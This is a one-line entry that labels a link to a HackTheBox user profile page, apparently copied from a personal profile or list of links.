HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
